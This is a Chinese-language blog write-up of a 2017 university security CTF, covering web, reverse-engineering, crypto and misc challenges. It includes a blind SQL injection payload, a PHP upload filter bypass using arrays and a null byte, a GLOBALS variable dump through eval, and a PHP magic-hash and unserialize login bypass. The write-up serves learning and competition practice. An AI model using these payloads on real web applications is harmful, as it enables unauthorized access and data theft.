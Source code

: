 ```yaml
---
layout: post
title: "2017安全运维挑战赛writeup"
date: 2017-11-13
description: "2017高校网络信息安全管理运维挑战赛writeup"
tag: writeup
---
```

跟着朋友打了一下2017的高校运维赛，虽然比赛过程中存在这一些不可描述的东西（比如逃课比赛被老师抓到...等等），总之感谢队友没把我抛弃掉。
比赛末尾主办方让写wp了，写的不是很细，就放到博客上充当一篇博文吧QAQ

### Web
#### Login
用万能密码登录发现姿势错误，然后开始尝试sql盲注
```
Payload：uname=1'^(ord(left(pwd,1))>101)^'0&pwd=1
```
总共30位<br>
可以写脚本也可以试试手注，注到手抽筋<br>
```
fsaoaigafsdfsdubbwouibiaewrawe
```
最后flag
![](/images/2017-11-13/1.png)
```
EIS{SQLI_INJECTIion_blind}
```

#### PHP是最好的语言
[参考链接](http://www.jianshu.com/p/179fa39909f4)<br>
.bak下载源码<br>
![](/images/2017-11-13/2.png)
对着他的payload稍微改了一下
```
EIS{php_th3_b45t_l4ngu4g3}
```

#### 文件上传
![](/images/2017-11-13/3.png)
```
Payload：ext=php&content[]=<?ph&content[]=p%00phpinfo();
```
![](/images/2017-11-13/4.png)
```
EIS{6yp455_with_4rr4y}
```

#### 随机数
![](/images/2017-11-13/5.png)
试了下爆破，神奇的可行，然后就出来了<br>
![](/images/2017-11-13/6.png)
```
EIS{brute_forc3_th3_r4nd0m_s33d}
```

#### PHP代码审计
```
<?php   
error_reporting(0); 
include "flag1.php"; 
highlight_file(__file__); 
if(isset($_GET['args'])){ 
    $args = $_GET['args']; 
    if(!preg_match("/^\w+$/",$args)){ 
        die("args error!"); 
    } 
    eval("var_dump($$args);"); 
}
```
```
Payload：args=GLOBALS
```
![](/images/2017-11-13/7.png)

#### 快速计算
写了个爬虫
有点瑕疵 第二个数如果是三位数的话就会报错

![](/images/2017-11-13/8.png)

#### PHP trick
```
Payload：?gift=&flag=lag=
```
![](/images/2017-11-13/9.png)
RVF{woshiflag}
凯撒解密一下

#### 不是管理员也能login
主要考查php弱类型
查看说明页面拿到源码，貌似之前也再哪里遇到过
用户名的md5前两位是0e，密码的话是反序列化
```
md5('s155964671a')=0e342768416822451524974117254469
帐号就是 s155964671a了，密码a:2:{s:3:"pwd";b:1;s:4:"name";b:1;}
```
![](/images/2017-11-13/10.png)
```
EIS{Smi1E_on_YouR_face_And_in_y0ur_heart}
```

### RE
#### IginteMe
![](/images/2017-11-13/11.png)
![](/images/2017-11-13/12.png)
查看源码
![](/images/2017-11-13/13.png)
然后就是上脚本了
```
list1 = [0x0D, 0x13, 0x17, 0x11, 0x02, 0x01, 0x20, 0x1D, 0x0C, 0x02, 0x19, 0x2F, 0x17, 0x2B, 0x24, 0x1F, 0x1E, 0x16, 0x09, 0x0F, 0x15, 0x27, 0x13, 0x26, 0x0A, 0x2F, 0x1E, 0x1A, 0x2D, 0x0C, 0x22, 0x04,]
a = b'GONDPHyGjPEKruv{{pj]X@rF'
flag = []
for x, y in zip(list1, a):
    flag.append(((x^y) - 72) ^ 0x55)
print (bytes(flag))
```

#### ReverseMe
这个给的程序无法打开真有点伤，不过不影响做题
![](/images/2017-11-13/14.png)
双击定位到了这里
![](/images/2017-11-13/15.png)
寻找交叉引用拿到源码
![](/images/2017-11-13/16.png)
剩下的就是脚本问题了
![](/images/2017-11-13/17.png)

### crypto
#### easy crypto
![](/images/2017-11-13/18.png)
一个对称加密对着给出的文件逆写python脚本：
![](/images/2017-11-13/19.png)

### Misc
#### 隐藏在黑夜里的秘密
看到有密码而且没发现提示，在想会不会是伪加密
![](/images/2017-11-13/20.png)
查看图片发现惊喜
![](/images/2017-11-13/21.png)

#### 签到题
扫描得flag


可能写的不是很详细，具体大佬们可以联系我